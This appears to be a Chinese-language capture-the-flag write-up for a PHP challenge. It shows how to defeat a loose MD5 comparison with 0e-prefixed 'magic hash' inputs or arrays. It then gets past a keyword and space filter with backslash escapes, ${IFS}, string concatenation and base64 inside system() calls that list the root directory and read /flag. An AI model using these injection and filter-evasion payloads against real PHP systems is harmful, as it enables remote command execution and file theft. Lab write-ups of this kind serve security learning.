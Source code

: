 # 解题方法

很简单的md5弱等于和数组

 由于不是`===`，那么0e开头、后面全是数字的md5都为0，我们可以传入一个经过md5加密后为0e的值即可

```
QNKCDZO
0e830400451993494058024219903391
240610708
0e462097431906509019562988736854
```

 当传入数组时返回NULL，但两个的值还是相等的

![](https://files.catbox.moe/n0jq5l.png)

过滤了flag，ls，空格，cat，使用`\`来绕过关键字符串，使用`${IFS}`来绕过空格

`cmd=system("l\s");`

![](https://files.catbox.moe/qkjifl.png)

`cmd=system('l\s${IFS}/');`

`cmd=system('c\at${IFS}/fla\g');`

![](https://files.catbox.moe/qjtoe3.png)

`cmd=$a='ca';$b='t';$c='<>/fl';$d='ag';system($a.$b.$c.$d);`

方法太多了，还可以base64解密

`system(base64_decode(Y2F0IC9mbGFn));`


